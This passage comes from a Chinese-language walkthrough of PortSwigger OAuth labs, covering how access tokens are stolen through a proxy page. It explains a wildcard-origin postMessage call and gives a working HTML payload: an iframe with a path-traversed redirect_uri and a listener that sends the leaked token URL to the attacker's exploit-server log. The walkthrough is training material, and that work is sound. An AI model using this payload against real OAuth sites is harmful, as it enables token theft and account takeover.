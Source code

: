 获取 admin api key：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051622162.png-water_print](assets/1699407708-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051622162.png-water_print")

#### [](#224-stealing-codes-and-access-tokens-via-a-proxy-page)2.2.4 Stealing codes and access tokens via a proxy page

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

本环境借助网站前端自身特性来绕过 `redirect_uri` 的限制

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051731429.png-water_print](assets/1699407708-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202305051731429.png-water_print")

这段 JavaScript 代码使用 `postMessage` 方法向当前窗口的父窗口发送消息。

具体来说，代码中的参数 `{type: 'onload', data: window.location.href}` 是要发送的消息体，它包含了两个属性：

-   `type`: 表示消息的类型，这里是 `'onload'`，可能表示当前窗口已经加载完毕。
-   `data`: 表示消息的数据，这里是当前窗口的 URL 地址，通过 `window.location.href` 获取。

而 `'*'` 表示目标窗口的源可以是任何值，即不限制发送目标。

这种方式可以在跨域的情况下进行窗口之间的通信，可以用于实现单页应用（SPA）中的路由控制、子窗口与父窗口之间的通信等场景。接收消息的窗口需要使用 `window.addEventListener` 方法监听消息事件，并在事件处理函数中进行相应的操作。

构造 payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```html<br><iframe src="https://oauth-0a9e0004046695e5808b109b02130039.oauth-server.net/auth?client_id=i68727fixf7k81yma64w4&redirect_uri=https://0acc0028043595bf80f11233008c00a2.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe><br><script><br>    window.addEventListener('message', function(e) {<br>        fetch("/" + encodeURIComponent(e.data.data))<br>    }, false)<br></script><br>``` |

这段 JavaScript 代码中，首先使用 `window.addEventListener` 方法为当前窗口添加了一个 `message` 事件的监听器。当接收到其他窗口通过 `postMessage` 方法发送过来的消息时，就会触发这个事件，执行后面的回调函数。

在回调函数中，`e` 参数是一个事件对象，包含了发送的消息和其他信息。其中，`e.data` 属性表示接收到的消息内容，它包含了一个 `data` 属性，是发送的消息体。因此，`encodeURIComponent(e.data.data)` 会将接收到的消息体转换成 URL 编码格式的字符串，并作为路径参数，构造一个 `fetch` 请求。

具体来说，这个 `fetch` 请求会向当前网站的根路径（`"/"`）发送一个 GET 请求，路径中包含了一个 URL 编码后的字符串，这个字符串是之前通过 `postMessage` 方法发送过来的消息体的 `data` 属性值。

获取 log，并访问 `/me` 路由获取 `apikey`：
